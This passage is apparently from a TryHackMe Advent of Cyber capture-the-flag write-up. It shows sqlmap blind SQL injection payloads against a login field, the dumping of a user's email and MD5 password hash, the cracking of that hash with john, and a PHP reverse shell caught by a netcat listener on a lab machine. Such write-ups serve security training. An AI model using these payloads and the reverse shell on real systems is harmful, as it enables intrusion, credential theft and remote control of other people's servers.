OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   32.48 ms 10.8.0.1
2   80.84 ms 10.10.198.192

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.16 seconds
```

- [http://10.10.198.192/register.php#](http://10.10.198.192/register.php#)


- [http://10.10.198.192/register.php](http://10.10.198.192/register.php)






1. Which field is SQL injectable? Use the input name used in the HTML code.

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sqlmap -r day23_req.txt --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.9#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:23:47 /2020-10-03/

[15:23:47] [INFO] parsing HTTP request from 'day23_req.txt'
[15:23:47] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.10.198.192:80/index.php'. Do you want to follow? [Y/n] n
[15:24:00] [INFO] testing if the target URL content is stable
[15:24:00] [WARNING] POST parameter 'log_email' does not appear to be dynamic
[15:24:00] [WARNING] heuristic (basic) test shows that POST parameter 'log_email' might not be injectable
[15:24:00] [INFO] heuristic (XSS) test shows that POST parameter 'log_email' might be vulnerable to cross-site scripting (XSS) attacks
[15:24:00] [INFO] testing for SQL injection on POST parameter 'log_email'
[15:24:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:24:01] [WARNING] reflective value(s) found and filtering out
[15:24:03] [INFO] POST parameter 'log_email' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[15:24:04] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[15:24:16] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[15:24:16] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[15:24:16] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[15:24:16] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[15:24:16] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[15:24:16] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[15:24:16] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[15:24:16] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[15:24:16] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:24:16] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:24:17] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:24:17] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[15:24:17] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[15:24:17] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[15:24:17] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[15:24:17] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[15:24:17] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[15:24:17] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[15:24:17] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[15:24:17] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[15:24:17] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[15:24:17] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[15:24:17] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[15:24:17] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[15:24:17] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[15:24:17] [INFO] testing 'Generic inline queries'
[15:24:17] [INFO] testing 'MySQL inline queries'
[15:24:17] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[15:24:18] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[15:24:18] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[15:24:18] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[15:24:18] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[15:24:18] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[15:24:18] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:24:38] [INFO] POST parameter 'log_email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[15:24:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:24:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:24:39] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:24:39] [INFO] target URL appears to have 12 columns in query
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[15:25:02] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[15:25:03] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[15:25:04] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[15:25:06] [INFO] target URL appears to be UNION injectable with 12 columns
[15:25:10] [WARNING] if UNION based SQL injection is not detected, please consider and/or try to force the back-end DBMS (e.g. '--dbms=mysql')
[15:25:10] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[15:25:11] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[15:25:13] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[15:25:14] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[15:25:15] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[15:25:17] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[15:25:18] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[15:25:20] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[15:25:21] [INFO] checking if the injection point on POST parameter 'log_email' is a false positive
POST parameter 'log_email' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 436 HTTP(s) requests:
---
Parameter: log_email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: log_email=test@test.com' AND 4895=4895 AND 'rMRx'='rMRx&log_password=testtest&login_button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.com' AND (SELECT 3163 FROM (SELECT(SLEEP(5)))JcVz) AND 'nJxe'='nJxe&log_password=testtest&login_button=Login
---
[15:25:31] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:25:32] [INFO] fetching database names
[15:25:32] [INFO] fetching number of databases
[15:25:32] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:25:32] [INFO] retrieved: 6
[15:25:32] [INFO] retrieved: information_schema
[15:25:43] [INFO] retrieved: mysql
[15:25:46] [INFO] retrieved: performance_schema
[15:25:56] [INFO] retrieved: phpmyadmin
[15:26:02] [INFO] retrieved: social
[15:26:05] [INFO] retrieved: sys
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] social
[*] sys

[15:26:07] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.198.192'

[*] ending @ 15:26:07 /2020-10-03/
```

`log_email`

2. What is Santa Claus' email address?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sqlmap -r day23_req.txt -D social --tables --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:27:12 /2020-10-03/

[15:27:12] [INFO] parsing HTTP request from 'day23_req.txt'
[15:27:13] [INFO] resuming back-end DBMS 'mysql'
[15:27:13] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.10.198.192:80/index.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: log_email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: log_email=test@test.com' AND 4895=4895 AND 'rMRx'='rMRx&log_password=testtest&login_button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.com' AND (SELECT 3163 FROM (SELECT(SLEEP(5)))JcVz) AND 'nJxe'='nJxe&log_password=testtest&login_button=Login
---
[15:27:13] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:27:13] [INFO] fetching tables for database: 'social'
[15:27:13] [INFO] fetching number of tables for database 'social'
[15:27:13] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:27:13] [INFO] retrieved:
[15:27:14] [WARNING] reflective value(s) found and filtering out
8
[15:27:15] [INFO] retrieved: comments
[15:27:20] [INFO] retrieved: friend_requests
[15:27:29] [INFO] retrieved: likes
[15:27:32] [INFO] retrieved: messages
[15:27:36] [INFO] retrieved: notifications
[15:27:43] [INFO] retrieved: posts
[15:27:47] [INFO] retrieved: trends
[15:27:50] [INFO] retrieved: users
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+

[15:27:53] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.198.192'

[*] ending @ 15:27:53 /2020-10-03/
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sqlmap -r day23_req.txt -D social -T users --column --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:29:46 /2020-10-03/

[15:29:46] [INFO] parsing HTTP request from 'day23_req.txt'
[15:29:46] [INFO] resuming back-end DBMS 'mysql'
[15:29:46] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.10.198.192:80/index.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: log_email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: log_email=test@test.com' AND 4895=4895 AND 'rMRx'='rMRx&log_password=testtest&login_button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.com' AND (SELECT 3163 FROM (SELECT(SLEEP(5)))JcVz) AND 'nJxe'='nJxe&log_password=testtest&login_button=Login
---
[15:29:46] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:29:46] [INFO] fetching columns for table 'users' in database 'social'
[15:29:46] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:29:46] [INFO] retrieved:
[15:29:47] [WARNING] reflective value(s) found and filtering out
12
[15:29:49] [INFO] retrieved: id
[15:29:50] [INFO] retrieved: int(11)
[15:29:54] [INFO] retrieved: first_name
[15:30:00] [INFO] retrieved: varchar(25)
[15:30:07] [INFO] retrieved: last_name
[15:30:12] [INFO] retrieved: varchar(25)
[15:30:20] [INFO] retrieved: username
[15:30:24] [INFO] retrieved: varchar(100)
[15:30:31] [INFO] retrieved: email
[15:30:35] [INFO] retrieved: varchar(100)
[15:30:42] [INFO] retrieved: password
[15:30:47] [INFO] retrieved: varchar(255)
[15:30:54] [INFO] retrieved: signup_date
[15:31:01] [INFO] retrieved: date
[15:31:03] [INFO] retrieved: profile_pic
[15:31:10] [INFO] retrieved: varchar(255)
[15:31:18] [INFO] retrieved: num_posts
[15:31:24] [INFO] retrieved: int(11)
[15:31:29] [INFO] retrieved: num_likes
[15:31:35] [INFO] retrieved: int(11)
[15:31:40] [INFO] retrieved: user_closed
[15:31:47] [INFO] retrieved: varchar(3)
[15:31:53] [INFO] retrieved: friend_array
[15:32:01] [INFO] retrieved: text
Database: social
Table: users
[12 columns]
+--------------+--------------+
| Column       | Type         |
+--------------+--------------+
| email        | varchar(100) |
| first_name   | varchar(25)  |
| friend_array | text         |
| id           | int(11)      |
| last_name    | varchar(25)  |
| num_likes    | int(11)      |
| num_posts    | int(11)      |
| password     | varchar(255) |
| profile_pic  | varchar(255) |
| signup_date  | date         |
| user_closed  | varchar(3)   |
| username     | varchar(100) |
+--------------+--------------+

[15:32:03] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.198.192'

[*] ending @ 15:32:03 /2020-10-03/
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sqlmap -r day23_req.txt -D social -T users -C id,password,email,username --sql-query "select id,password,email,username from users where username like '%santa%'"
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:33:31 /2020-10-03/

[15:33:31] [INFO] parsing HTTP request from 'day23_req.txt'
[15:33:32] [INFO] resuming back-end DBMS 'mysql'
[15:33:32] [INFO] testing connection to the target URL
got a 302 redirect to 'http://10.10.198.192:80/index.php'. Do you want to follow? [Y/n] n
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: log_email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: log_email=test@test.com' AND 4895=4895 AND 'rMRx'='rMRx&log_password=testtest&login_button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.com' AND (SELECT 3163 FROM (SELECT(SLEEP(5)))JcVz) AND 'nJxe'='nJxe&log_password=testtest&login_button=Login
---
[15:33:37] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:33:37] [INFO] fetching SQL SELECT statement query output: 'select id,password,email,username from users where username like '%santa%''
[15:33:37] [INFO] the SQL query provided has more than one field. sqlmap will now unpack it into distinct queries to be able to retrieve the output even if we are going blind
[15:33:37] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[15:33:37] [INFO] retrieved:
[15:33:38] [WARNING] reflective value(s) found and filtering out
1
[15:33:39] [INFO] retrieved: 1
[15:33:40] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28
[15:34:02] [INFO] retrieved: bigman@shefesh.com
[15:34:13] [INFO] retrieved: santa_claus
select id,password,email,username from users where username like '%santa%' [1]:
[*] 1, f1267830a78c0b59acc06b05694b2e28, bigman@shefesh.com, santa_claus

[15:34:20] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.198.192'

[*] ending @ 15:34:20 /2020-10-03/
```

`bigman@shefesh.com`

3. What is Santa Claus' plaintext password?

`[15:33:40] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ john SantaClaus.hash --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
saltnpepper      (?)
1g 0:00:00:00 DONE (2020-10-03 15:37) 14.28g/s 2232Kp/s 2232Kc/s 2232KC/s santinha..rams23
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

`saltnpepper`

4. Santa has a secret! Which station is he meeting Mrs Mistletoe in?

- [You and Mommy Mistletoe](http://10.10.198.192/messages.php?u=mommy_mistletoe)


`Waterloo`

1. Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

```
cp /usr/share/webshells/php/php-reverse-shell.php ./php-reverse-shell.phtml
```

```php
$ip = '10.8.106.222';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
```

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.198.192] 60828
Linux server 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:51:01 up 38 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home/user
$ ls
flag.txt
$ cat flag.txt
@@@########################################################################@@@@
@@@(((((((((((((((((((((((((((((((((((%#(((((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((((((((((%%,*%%(((((((((((((((((((((((((((((((((@@@@
@@@((((((((((((((((((&%(((((((((((%#*/##(((((((((((#@%%((((((((((((((((((@@@@
@@@(((((((((((((((((((%(//%((((((#(//,*%%((((((#/,(#(((((((((((((((((((@@@@
@@@((((((((((((((((((((#(*%#/##,*#&%%%&%%,*%###%%/*&(((((((((((((((((((((@@@@
@@@(((((((((((((((((((((#(&@(*(#(##%&%#%%%%#((%,*%&((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((@%%((#(**/*#,*(*//*/(((%%@(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((%%#(##,#**,##%#,*(#*#((%%#(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((#/#*(,*/((((((((((/****%*%(((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((#(&/,,,,,,,,,,,,,,/%&&/#(((((((((((((((((((((((@@@@
@@@((((((((((((((((((((((((#&((##(/********/(#(((&%((((((((((((((((((((((((@@@@
@@@((((((((((((((((((((((((((((((((########((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((((((((((#((((((((((((((((((((((((((((((((((((((@@@@
@@@(((((((((((((((((((((((((%/((,     .      *##/%(((((((((((((((((((((((((@@@@
@@@((((((((%((((((%((((((%###  .      .       .  %%(%((((((%((((((&((((((((@@@@
@@@((((((%/,##((%/ #(((((%###  .   .  .       .. %%#%(((((&.(&((%( (#((((((@@@@
@@@(((((#*,(%*%,%%/ (##((%###  .  .   .        * %%#%(((%# (%###(%( #((((((@@@@
@@@((#%%.*#%,*#,/((# %(#%%### /*,./..*..,/ , ,*/ %%#%#%(/ (%,%/,%.(#,*##%((@@@@
@@@(((# #(#,/(*(#./## /((%### /*/%&&,(..,/#,%.(  %%#%(#./%#,/%.(%,(##* #(((@@@@
@@%#((#(/##%/%%(#%#%(%###.**.,*,.*.,,. **.*  %%#%(%#%#/%&*%%*&%((#((##@@@
@@&%(((#,##(*#%/%(,## #((%###  .(     .    ,. .  %%#%((#.#((,%(*%(,##.((((#&@@@
@@@@((((# %#,/#,#/(#(((((%###  .      .       .  %%#%(((((,#*#*#/,(% #((((&@@@@
@@@&((((((%#&,#(/%(((((%###..,/#####&%#####*. .%%#%(((((##&*##.%##((((((@@@@@
@@@@&((((((##(((#%(((((((%#(####//(##%@&%###((####(#%((((((###((###((((((%#@@@@
@@@@@((((((((((((((((((((#%%%%%%%%%%%%%#%%%%%%%%%%%%%((((((((((((((((((((@,@@@@
@@@@&@(((((((((((((((((((((((((((((((##%(#((((((((((((((((((((((((((((((#.@@@@@
@@@@@ #((((((((((((((((((((((((((((%/%&&%%##((((((((((((((((((((((((((((@@@@@@@
@@@@@@@#(((((((((((((((((((((((((%.( /%@,( (/#(((((((((((((((((((((((((@@@@@@@@
@@@@@@@&((((((((((((((((((((((%#.(   /&%*/   (.(%(((((((((((((((((((((@%@@@@@@@
@@@@@@@@%%((((((((((((((((#&(#.* . ** /@./,,.. / &(%((((((((((((((((#@,@@@@@@@@
@@@@@@@@@.&(((((((((((((((&@@&%, /#,  /%, .#&@@@%%#((((((((((((((%#@@@@@@@@@@
@@@@@@@@@@%@((((((((((((((#&..,,%&@. #//(( /@@#., ,(((((((((((((@%@@@@@@@@@@@
@@@@@@@@@@@@@&(((((((((((((#,(  ,,,,#(/(#&@(,,.  /#(((((((((((((&%@@@@@@@@@@@@@
%%#%&%@@@@@@@@&%((((((((((((#,(   *,  ,&.   ,., /#((((((((((((%@#@@@@@@@@&&%%%&
/***/*%@@@@@@@@*&&(((((((((((%*  .#%@  ((*%&*, .,#((((((((((&@@@@@@@@@&***,**
@#(,(%#@@@@@@@@@@*%@(((((((((#./,@&@. *,*.*@@#*,/(((((((((& @@@@@@@@@@@@@%#*((@
&/#%//&@@@@@@@@@@@@@,&&(((((((%#&@((       .%@##&(((((#@(#@@@@@@@@@@@@@@@/%(((&
#(/,,#&%@@@@@@@@@@@@@(%@(((((#%(%.,(#%#(,(%&(((#@.@@@@@@@@@@@@@@%%#,..(%*##
&((&*%##*/.   ,*#%%#&%/&%@ /@((((((((((((((((#@@@@@@(&%&%%(/,.    ,/# %,@@/%%
 %/,(,,#,%@,.&*%(,%(//&%@@@@@@@@@%#((((#&@&@@@@@@@@.#%%*%.( &*@..@@*%%%#*%%
@@#%*,*%*(& /( *&/%#&*,..@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@,/#&(@. *(&(%./(*../@@@@
@@@@@@@#,  . ,*,%.@*(##&%#&@@@@@@@@@@@@@@@@@@@@@@@@@#%%(((#,(&,/     ,#&%@@@@@@
@@@@@@@@@@@@@@ #%@%%&(@/%**,,*(#%#@&&%%&&@#%##*,...*#/@/(#@%%, @@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@/*&,%,*#//%.**.(. ##..(%*(.,@,#@//#%@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@&%(@%#,##&**%(&/,@ @.@& &. */..@(*@%(#%@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%/**/,,#(%# %.& &,,,/,@#/%/,,,*(&%/@@@@@@@@@@@@@@@@@@@@@

MERRY CHRISTMAS FROM SHEFFIELD, UK

CREATED IN COLLABORATION WITH TRYHACKME.COM

THM{SHELLS_IN_MY_EGGNOG}

$
```

`THM{SHELLS_IN_MY_EGGNOG}`

## [Day 24] Elf Stalk

McDatabaseAdmin has been trying out some new storage technology and came across the ELK stack(consisting of Elastic Search, Kibana and Log Stash).

The Christmas Monster found this insecurely configured instance and locked McDatabaseAdmin out of it. Can McSkidy help to retrieve the lost data?

While this task does not have supporting material, here is a general approach on how to go about this challenge:

- scan the machine to look for open ports(specific to services running as well)
- as with any database enumeration, check if the database requires authentication. If not, enumerate the database to check the tables and records
- for other open ports, identify misconfigurations or public exploits based on version numbers

The machine may take up to 5 minutes to boot.

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p- 10.10.36.177
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 15:59 CEST
Nmap scan report for 10.10.36.177
Host is up (0.034s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 0a:ee:6d:36:10:72:ce:f0:ef:40:9e:63:52:a9:86:44 (RSA)
|   256 11:6e:8f:7f:15:66:e3:03:b1:c4:55:f8:e7:bb:59:23 (ECDSA)
|_  256 b3:12:7a:7f:ac:89:72:c9:25:88:96:20:ad:c7:5b:4a (ED25519)
111/tcp  open  rpcbind   2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
5601/tcp open  esmagent?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: 5a29ca259924bec4872ad69d3677ec71
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     Date: Sat, 03 Oct 2020 14:03:16 GMT
|     Connection: close
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
